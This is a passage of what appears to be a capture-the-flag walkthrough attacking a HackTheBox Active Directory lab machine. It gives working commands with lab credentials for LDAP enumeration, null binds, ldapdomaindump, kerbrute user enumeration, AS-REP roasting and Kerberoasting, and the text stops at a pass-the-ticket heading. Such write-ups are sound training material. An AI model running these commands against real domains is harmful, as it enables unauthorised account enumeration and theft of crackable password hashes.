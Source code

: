 Using ldapsearch:

    ldapsearch -x -h 10.10.11.42 -D "CN=Olivia,CN=Users,DC=administrator,DC=htb" -w 'ichliebedich' -b "DC=administrator,DC=htb"
Replace "CN=Olivia,CN=Users,DC=administrator,DC=htb" with your distinguished name (DN) and -b with the base DN of the domain. This command queries all objects under the specified base.

Extract Sensitive Information with ldapdomaindump:

    ldapdomaindump -u "administrator.htb\Olivia" -p 'ichliebedich' -d 10.10.11.42
This tool generates HTML and JSON reports, detailing user accounts, groups, and more.

Attacking LDAP with Null Binds
If anonymous access is allowed, try accessing LDAP with no credentials:

    ldapsearch -x -h 10.10.11.42 -b "DC=administrator,DC=htb"
This may reveal valuable information like usernames, group memberships, and policies without authentication.

2. Kerberos Attacks
Kerberos is a network authentication protocol that uses ticketing. Attacks often target weak encryption methods or improperly managed accounts.

Kerberos Pre-Authentication Enumeration
If you know valid usernames in the domain, you can attempt Kerberos authentication with them to confirm which ones are active without needing passwords.

User Enumeration with kerbrute:
    
    kerbrute userenum -d administrator.htb --dc 10.10.11.42 username_list.txt
kerbrute will indicate which usernames are valid by sending login requests and checking responses.
AS-REP Roasting
This attack targets accounts with Kerberos pre-authentication disabled. When pre-auth is disabled, attackers can request encrypted Ticket Granting Tickets (TGTs) without knowing the password and then try to crack them offline.

Using Impacket’s GetNPUsers.py:
    
    GetNPUsers.py administrator.htb/ -usersfile usernames.txt -no-pass -dc-ip 10.10.11.42
If successful, this will output hashes of accounts that can be cracked offline with tools like hashcat.
Kerberoasting
Kerberoasting targets service accounts, which often have weaker passwords. Attackers request a service ticket (TGS) and attempt to crack it offline.

Enumerate Service Principal Names (SPNs):

    ldapsearch -x -h 10.10.11.42 -D "CN=Olivia,CN=Users,DC=administrator,DC=htb" -w 'ichliebedich' -b "DC=administrator,DC=htb" "(servicePrincipalName=*)"
Requesting and Cracking Service Tickets with Impacket’s GetUserSPNs.py:

    GetUserSPNs.py administrator.htb/Olivia:ichliebedich -dc-ip 10.10.11.42 -request
The output is a service ticket hash, which can be cracked offline.

Pass-the-Ticket (PtT) Attack
If you manage to capture a Ticket Granting Ticket (TGT) or a Ticket Granting Service (TGS), you can impersonate the user and access services.
